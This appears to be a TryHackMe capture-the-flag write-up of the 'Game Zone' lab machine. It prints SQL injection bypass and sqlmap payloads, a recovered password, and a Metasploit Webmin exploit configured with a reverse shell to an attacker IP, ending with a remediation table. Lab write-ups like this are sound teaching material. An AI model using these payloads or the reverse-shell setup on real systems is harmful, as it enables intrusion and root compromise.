










# Game Zone — TryHackMe Writeup

**Platform:** TryHackMe | **Difficulty:** Easy | **Target IP:** 10.64.134.3 | **Attacker IP:** 192.168.131.193

## Machine info



## Summary

**Game Zone** is a TryHackMe machine built around a classic SQL injection chain against a game review website. A login bypass exposes an internal portal whose search feature is itself injectable, and `sqlmap` dumps a password hash that `CrackStation` recovers, granting SSH access. From there, checking the host's listening sockets uncovers a `Webmin` instance bound to port 10000 but hidden from the outside; tunneling into it over the existing SSH session and reusing the recovered credentials reach an authenticated session, which Metasploit then abuses through a dedicated module to execute commands directly as root.

**Attack chain:** SQL Injection Login Bypass → sqlmap Credential Dump → SSH as agent47 → Hidden Webmin Service via SSH Tunnel → Metasploit RCE → Root

## 1. Reconnaissance

A full TCP port scan of the target turned up only SSH and a web application named "Game Zone":

```
nmap -p- -sS -sV -sC -vvv -oN scan.txt 10.64.134.3

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 62 OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 61:ea:89:f1:d4:a7:dc:a5:50:f7:6d:89:c3:af:0b:03 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDFJTi0lKi0G+v4eFQU+P+CBodBOruOQC+3C/nXv0JVeR7yDWH6iRsFsevDofWcq05MZBr/CDPCnluhZzM1psx+5bp1Eiv3ecO0PF1QjhAzsPwUcmFSG1zAg+S757M+RFeRs0Jw0WMev8N6aR3uBZQSDPwBHGps+mZZZRcsssckJGQCZ4Qg/6PVFIwNGx9UoftdMFyfNMU/TDZmoatzo/FNEJOhbR38dF/xw9s/HRhugrUsLdNHyBxYShcY3B0Y2eLjnnuUWhYPmLZqgHuHr+eKnb1Ae3MB5lJTfZf3OmWaqcDVI3wpvQK7ACC9S8nxL3vYLyzxlvucEZHM9ILBI7Ov
|   256 b3:7d:72:46:1e:d3:41:b6:6a:91:15:16:c9:4a:a5:fa (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKAU0Orx0zOb8C4AtiV+Q1z2yj1DKw5Z2TA2UTS9Ee1AYJcMtM62+f7vGCgoTNN3eFj3lTvktOt+nMYsipuCxdY=
|   256 53:67:09:dc:ff:fb:3a:3e:fb:fe:cf:d8:6d:41:27:ab (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIL6LScmHgHeP2OMerYFiDsNPqgqFbsL+GsyehB76kldy
80/tcp open  http    syn-ack ttl 62 Apache httpd 2.4.18 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Game Zone
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## 2. SQL Injection — Login Bypass and Credential Dump

Browsing to the site on port 80 revealed a homepage themed "Game Zone" with a user login panel:


The login field accepted a classic authentication bypass, `'OR 1=1-- -`, granting access regardless of the password supplied:


This landed on the "Game Zone Portal", a page with a search box for game reviews backed by the same vulnerable query logic:



The search request was captured to `request.txt`:



`sqlmap` against that request confirmed the `searchitem` POST parameter was injectable and identified four usable techniques:

```
sqlmap -r request.txt --batch --dbs --dbms=MySQL --dump

sqlmap identified the following injection point(s) with a total of 55 HTTP(s) requests:
---
Parameter: searchitem (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (MySQL comment)
    Payload: searchitem=%' AND 9260=9260#

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: searchitem=%' AND GTID_SUBSET(CONCAT(0x71787a6271,(SELECT (ELT(4553=4553,1))),0x7176627071),4553) AND 'fRzA%'='fRzA

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: searchitem=%' AND (SELECT 8627 FROM (SELECT(!SLEEP(5)))XpzP) AND 'yCGs%'='yCGs

    Type: UNION query
    Title: MySQL UNION query (NULL) - 3 columns
    Payload: searchitem=%' UNION ALL SELECT NULL,NULL,CONVERT(CONCAT(0x71787a6271,0x565a4c525962425a4f777342544f654d42546b497a6c6b4455666e734b625573677845596563464e,0x7176627071) USING utf8mb4) COLLATE utf8mb4_bin#
---
[05:04:31] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 16.04 or 16.10 (xenial or yakkety)
web application technology: Apache 2.4.18
back-end DBMS: MySQL >= 5.6
available databases [5]:
[*] db
[*] information_schema
[*] mysql
[*] performance_schema
[*] sys

Database: db
Table: post
[5 entries]
+----+--------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| id | name                           | description                                                                                                                                                                                            |
+----+--------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| 1  | Mortal Kombat 11               | Its a rare fighting game that hits just about every note as strongly as Mortal Kombat 11 does. Everything from its methodical and deep combat.                                                         |
| 2  | Marvel Ultimate Alliance 3     | Switch owners will find plenty of content to chew through, particularly with friends, and while it may be the gaming equivalent to a Hulk Smash, that isnt to say that it isnt a rollicking good time. |
| 3  | SWBF2 2005                     | Best game ever                                                                                                                                                                                         |
| 4  | Hitman 2                       | Hitman 2 doesnt add much of note to the structure of its predecessor and thus feels more like Hitman 1.5 than a full-blown sequel. But thats not a bad thing.                                          |
| 5  | Call of Duty: Modern Warfare 2 | When you look at the total package, Call of Duty: Modern Warfare 2 is hands-down one of the best first-person shooters out there, and a truly amazing offering across any system.                      |
+----+--------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+

Database: db
Table: users
[1 entry]
+------------------------------------------------------------------+----------+
| pwd                                                              | username |
+------------------------------------------------------------------+----------+
| ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14 | agent47  |
+------------------------------------------------------------------+----------+
```

`sqlmap`'s own dictionary attack against the `pwd` hash found no match, so it was run through `CrackStation` instead:



The recovered credentials worked immediately over SSH:





## 3. Privilege Escalation via Webmin RCE

`sudo -l` denied `agent47` any sudo rights, and `find / -perm -4000` turned up only the standard Ubuntu SUID binaries — both dead ends. Checking the host's listening sockets instead revealed a service bound to all interfaces on port 10000, while MySQL on port 3306 was listening only on localhost:

```
netstat -tulnp

(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -               
tcp        0      0 0.0.0.0:10000           0.0.0.0:*               LISTEN      -               
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -               
tcp6       0      0 :::80                   :::*                    LISTEN      -               
tcp6       0      0 :::22                   :::*                    LISTEN      -               
udp        0      0 0.0.0.0:68              0.0.0.0:*                           -               
udp        0      0 0.0.0.0:10000           0.0.0.0:*                           -
```

Port 10000 is the default for `Webmin`, and it was bound to all interfaces — yet the original external scan had only found 22 and 80 open. The existing SSH session was used to reach it directly with a local port forward:



Reusing `agent47`'s credentials logged straight into an authenticated `Webmin` 1.580 session on Ubuntu 16.04.6:





The account's visible module list was limited to `File Manager` and `System Information` — no `Command Shell` module was available for direct command execution through the panel itself. Metasploit's `exploit/unix/webapp/webmin_show_cgi_exec` module targets this exact version instead, and was configured to reuse the same credentials and reach the tunnel endpoint over plain HTTP, since this Webmin instance does not serve over SSL:

```
set rhosts 127.0.0.1
set username agent47
set password videogamer124
set payload cmd/unix/reverse
set lhost 192.168.131.193
set ssl false
```

Running it authenticated successfully and executed a command shell payload directly as root:

```
exploit

[*] Started reverse TCP double handler on 192.168.131.193:4444 
[*] Attempting to login...
[+] Authentication successful
[+] Authentication successful
[*] Attempting to execute the payload...
[+] Payload executed successfully
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo DFdicqE8P7DrNO7x;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket A
[*] A: "Trying: not found\r\nsh: 2: Connected: not found\r\nsh: 3: Escape: not found\r\n"
[*] Matching...
[*] B is input...
[*] Command shell session 1 opened (192.168.131.193:4444 -> 10.64.134.3:33130) at 2026-11-27 06:13:16 -0500
```

The shell is stabilized:

```
script /dev/null -c bash
export TERM=xterm
root@gamezone:/usr/share/webmin/file/#
```



## Root Cause & Remediation

| Issue | Fix |
|---|---|
| The login form's username field is concatenated directly into a SQL query, allowing full authentication bypass with `'OR 1=1-- -` | Use parameterized queries / prepared statements for all authentication logic |
| The portal's game review search (`searchitem` POST parameter) is also vulnerable to SQL injection, letting `sqlmap` enumerate and dump the entire `db` database | Apply the same parameterized-query fix to every user-supplied query, not just the login form |
| `agent47`'s password was reused as-is for the `Webmin` login, letting a single cracked hash compromise both the OS account and the administrative panel | Enforce unique, independent credentials across application, OS, and administrative accounts |
| `Webmin` 1.580 was reachable internally on port 10000 and, once reached through an SSH tunnel and authenticated with the reused credentials, allowed arbitrary command execution as root via a known Metasploit module | Keep administrative panels patched and up to date, and don't rely on "internal-only" network exposure as the only protection for them |
